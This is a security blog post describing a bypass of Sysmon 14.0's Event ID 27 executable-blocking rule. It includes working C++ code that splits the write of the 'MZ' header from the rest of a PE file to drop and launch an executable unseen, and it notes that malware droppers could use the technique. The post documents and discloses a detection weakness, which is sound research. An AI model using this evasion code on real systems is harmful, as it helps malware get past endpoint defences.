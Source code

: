 ```yaml
---
layout: article
title: "Sysmon EID 27 Bypass" 
categories: [Cybersecurity]
author: Ahmed Elmayyah
tags: [Cybersecurity, Programming, C, Exploitation, Bypass]
mode: normal 
header:
  theme: dark
article_header:
  type: cover 
  theme: dark
  background_image: false
# Stick to an image with a height of 700
  image:
    src: /assets/images/sysmon-eid-27-bypass/sysmon_header.jpg
cover: /assets/images/sysmon-eid-27-bypass/sysmon_cover.jpg
---
```


# Sysmon EID 27 

Sysmon version 14.0 was released on the 16th of August 2022. The new version introduces a new Event ID: 27 FileBlockExecutable. It is kind of new for sysmon to block something from happening completely. So, it was interesting to think of a way to bypass it!

I came across [this post by Olaf Hartong](https://medium.com/@olafhartong/sysmon-14-0-fileblockexecutable-13d7ba3dff3e). In this post, Olaf was previewing the new event and how it works on a surface level.
<!--more-->
> The same is true for an DLL/XLL/WLL file since that will share the same MZ header.

It seemed apparent that the new rule is using the MZ header(explained below) to detect if the file is a Windows executable or not.

# Preparation

Taking the simple config file from the post for demonstration purposes, I installed Sysmon 14.0 on my Windows 10 VM and set the config file below. The file basically sets the rule to fire on any executable file in the Downloads folder of any user.
```xml
<Sysmon schemaversion="4.82">
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <FileBlockExecutable onmatch="include">
            <TargetFilename condition="contains all">C:\Users;Downloads</TargetFilename>
         </FileBlockExecutable>
      </RuleGroup>
   </EventFiltering>
</Sysmon>
```

I also wrote a very simple executable which prints out "Catch me if you can, Sysmon!". This is the executable that I'm going to try to drop and run from the Downloads folder. This executable as a start is placed in Documents\App.exe.

In an actual attack scenario, the executable file (PE) would be recieved from a remote server or perhaps embedded in the malware dropper itself. However, this is for demonstration only so it shouldn't really matter as Sysmon doesn't care where the file originated. All it cares about is the writing of an executable to the folders specified in the rule.
{:.info}


{: style="text-align:center"} 
![Output of the program](/assets/images/sysmon-eid-27-bypass/App.exe.png)

I also opened the event viewer and set a filter for event 27 at `Application and Services Logs/Microsoft/Windows/Sysmon/Operational`.

{: style="text-align:center"}
![Sysmon Filter](/assets/images/sysmon-eid-27-bypass/SysmonFilter.png)


To verify that Sysmon is working and will detect attempts to write an executable in the Downloads folder, I used the following simple program to write the file.

```cpp
#include <Windows.h>

int main()
{
	//Open an existing executable, for demonstration purposes
	HANDLE executableFile = CreateFileA("C:\\Users\\Satharus\\Documents\\App.exe",
		GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Allocate a buffer for the file and read it
	unsigned long long fileSize = GetFileSize(executableFile, NULL);
	char *fileBytes = (char *)malloc(fileSize);
	unsigned int bytesRead;
	ReadFile(executableFile, fileBytes, fileSize, (LPDWORD)&bytesRead, NULL);
	CloseHandle(executableFile);

	//Create a new file with write permissions
	HANDLE downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the executable file
	WriteFile(downloadsFile, fileBytes, fileSize, NULL, NULL);
	return 0;
}
```


{: style="text-align:center"}
![Sysmon Blocking](/assets/images/sysmon-eid-27-bypass/WithoutBypass.png)
{: style="text-align:center"}
As expected, Sysmon detects the creation of the file and blocks it.


# The Bypass

## A little bit of background
If you don't know, file formats typically have a [sequence of bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) known as file signatures, file headers, or more commonly, Magic Bytes. They're used by operating systems and programs to detect file formats even if their names don't contain the file extension.

The Windows Portable Executable format uses a file header/signature of `MZ` (the bytes `0x4D` and `0x5A`). That includes all executables, including .exe, .dll, .sys, etc...

Fun Fact: MZ is used as they are the initials of [Mark Zbikowski](https://en.wikipedia.org/wiki/Mark_Zbikowski), one of the lead developers of MS-DOS and the designer of the MS-DOS executable file format (which later became the Protable Executable format).
{:.info}


## Primal instinct
My very first thought was to zero out the MZ header and try to execute the file as is. That way Sysmon wouldn't detect it but I'd still be able to execute it just fine. However, that failed as `CreateProcess()` failed to execute a binary that doesn't have an MZ header. Running the executable from PowerShell or the command line prompt didn't work either. Interestingly enough, this proved some points:
 - Sysmon relies on the MZ header to detect an executable, as writing an entire binary without "MZ" worked just fine. 
 - Sysmon doesn't rely on the bytes `MZ` alone as when writing those to a file, it doesn't detect anything.


So, it seems like Sysmon relies on `MZ` alongside _something_ else to detect that it is an executable.

## The Actual bypass
Puting two and two together, what if we just wrote the file on two stages. We can write the string "MZ" first, and then write the rest of the file.

At first, I tried making two different calls to `WriteFile()` using the same file handle obtained from `CreateFileA()`. Sysmon was able to detect and block that just fine. However, the following steps worked:
 1. Create a file
 2. Write "MZ" to the file
 3. Close the handle to the file
 4. Open a handle to the same file in append mode
 5. Append the rest of the content to the file (make sure to skip the first two bytes)
 6. Close the handle
 7. Profit??

```cpp
#include <Windows.h>

int main()
{
	//Open an existing executable, for demonstration purposes
	HANDLE executableFile = CreateFileA("C:\\Users\\Satharus\\Documents\\App.exe",
		GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Allocate a buffer for the file and read it
	unsigned long long fileSize = GetFileSize(executableFile, NULL);
	char *fileBytes = (char *)malloc(fileSize);
	unsigned int bytesRead;
	ReadFile(executableFile, fileBytes, fileSize, (LPDWORD)&bytesRead, NULL);
	CloseHandle(executableFile);

	//Create a new file with write permissions to write the MZ header
	HANDLE downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the MZ header
	WriteFile(downloadsFile, "MZ", 2, NULL, NULL);

	//Close the file, this is extremely necessary to bypass sysmon
	CloseHandle(downloadsFile);

	//Get a handle to the file in append mode to write the rest of the file
	downloadsFile = CreateFileA("C:\\Users\\Satharus\\Downloads\\App.notexe",
		FILE_APPEND_DATA, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	//Write the rest of the file, skipping the first two bytes of the file
	WriteFile(downloadsFile, fileBytes + 2, fileSize - 2, NULL, NULL);
	CloseHandle(downloadsFile);

	//Create a new process using the executable we just very _stealthily_ dropped!
	STARTUPINFOA si;
	PROCESS_INFORMATION pi;
	CreateProcessA("C:\\Users\\Satharus\\Downloads\\App.notexe", NULL,
		NULL, NULL, true, 0, NULL, NULL, &si, &pi);
	return 0;
}
```

{: style="text-align:center"}
![Sysmon Blocking](/assets/images/sysmon-eid-27-bypass/WithBypass.png)
{: style="text-align:center"}
Sysmon doesn't detect the creation of the file and the process is allowed to execute.

This worked flawlessly. 

Simple? Yes. 

Stupid? Probably. 

Effective? Definitely!


Thanks a lot for reading! As usual, I hope you learned something or at least found it interesting!

If you enjoyed it, please share it with your friends that are interested in simple detection bypasses.
